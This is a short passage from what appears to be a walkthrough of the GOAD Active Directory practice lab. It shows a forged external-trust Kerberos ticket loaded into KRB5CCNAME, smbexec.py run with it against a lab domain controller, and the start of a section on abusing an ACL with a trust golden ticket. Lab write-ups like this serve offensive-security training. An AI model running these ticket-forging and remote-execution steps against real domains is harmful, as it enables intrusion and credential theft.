 ![trust_external_trustticket2.png](/assets/blog/GOAD/trust_external_trustticket2.png)

- And enjoy (secretsdump will work too)

```bash
export KRB5CCNAME=/workspace/trusts/external/trustdragon@sevenkingdoms.local.ccache
smbexec.py -k -no-pass trustdragon@kingslanding.sevenkingdoms.local -debug
```

![trust_external_trustticket3.png](/assets/blog/GOAD/trust_external_trustticket3.png)

## Exploit acl with external trust golden ticket

- Ok now imagine we want to exploit this acl from essos:

![trust_external_acl.png](/assets/blog/GOAD/trust_external_acl.png)
